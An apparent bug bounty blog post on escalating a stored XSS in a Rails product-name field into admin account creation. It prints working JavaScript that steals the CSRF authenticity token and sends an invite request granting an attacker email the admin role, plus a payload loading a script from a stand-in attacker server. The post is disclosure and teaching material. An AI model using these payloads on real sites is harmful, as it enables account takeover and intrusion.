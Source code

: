 ```yaml
---
title: "Privilege Escalation using XSS"
date: 2021-03-30
tags: [BugBounty, BugBountyTips, Cross Site Scripting, XSS, Privilege Escalation, Ruby On Rails, Rails]
excerpt: "Privilege Escalation using XSS"
header:
  image: "assets/images/BugBountyImages/xss_csrf/pe-via-xss.png"

---
```


Greetings everyone, this blog is about the privilege escalation issue I identified using XSS vulnerability.

So first let's jump into the functionality of the application. the application had a manager role and admin role and both admin and manager had access to the product section. Both the admin and manager were able to see the product name. 

While testing this functionality I tested the product name and it appears to be vulnerable to Cross-Site scripting attack using the simple payload `<script>alert(1)</script>`. This cross-site scripting attack was triggering in both the manager and admin section.

There was another functionality on admin sections that allows an admin to invite another user into the Organisation.  So, this functionality became my target and my end goal to exploit this cross-site scripting and invite a new user using that invitation functionality. 

Problem was, the request had a CSRF token in the POST request. To exploit this first I had to extract the CSRF token from the source and then I had to send the malicious payload to the admin user.

Getting the `authenticity_token` from the source code first:

```jsx
authenticity_token = document.getElementsByName("authenticity_token")[0].value
```

then send XHR request of the invitation functionality using the latest fetched `authenticity_token` token

```jsx
POST_URL = "https://redacted/users/invite"
var xhr = new XMLHttpRequest();
xhr.open("POST", POST_URL, true);
// Send the proper header information along with the request
xhr.setRequestHeader("Content-type", "application/x-www-form-urlencoded");
// This is for debugging and can be removed
xhr.onreadystatechange = function() {
if(xhr.readyState === XMLHttpRequest.DONE && xhr.status === 200) {
   console.log(xhr.responseText);
   }
}

xhr.send("utf8=%E2%9C%93&authenticity_token="+authenticity_token+"&email=attacker@gmail.com&role=admin&commit=Invite+User");
```

Final payload looks like:

```jsx
"><script src="http://attack-server.com/exploit.js"></script>
```

Once this payload gets triggers in the admin production section, a new user invitation with an admin role will be sent to the attacker's email address, now the attacker can signup as admin.

The program accepted this vulnerability as a P2 ( High Risk ) vulnerability and fixed it by sanitizing the product name parameter.